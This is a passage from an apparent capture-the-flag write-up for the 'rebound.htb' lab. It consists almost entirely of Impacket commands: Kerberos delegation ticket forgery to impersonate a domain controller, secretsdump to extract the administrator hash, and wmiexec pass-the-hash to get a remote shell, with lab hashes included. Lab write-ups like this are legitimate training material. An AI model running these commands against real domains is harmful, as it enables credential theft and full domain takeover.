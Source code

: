 ```bash
export KRB5CCNAME=dc01\\.ccache

```

![image44](../resources/07b18dc31b1a4990b59a54bf841ca6a6.png)

```bash
impacket-getST -spn "http/dc01.rebound.htb" -impersonate "dc01$" -additional-ticket "dc01$.ccache" "rebound.htb/delegator$" -hashes aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524 -k -no-pass -dc-ip 10.129.34.86

```

![image45](../resources/6d9dce5efb9b439e9b0025b5bafbf807.png)

```bash
impacket-secretsdump -no -k dc01.rebound.htb -just-dc-user administrator -dc-ip 10.129.34.86

```

![image46](../resources/529ce7a8eadb40618b1aff7a779298ad.png)

```bash
impacket-wmiexec -hashes :176be138594933bb67db3b2572fc91b8 rebound.htb/administrator@dc01.rebound.htb

```

![image47](../resources/91a49e794f5644629b3c64cb32a8a948.png)
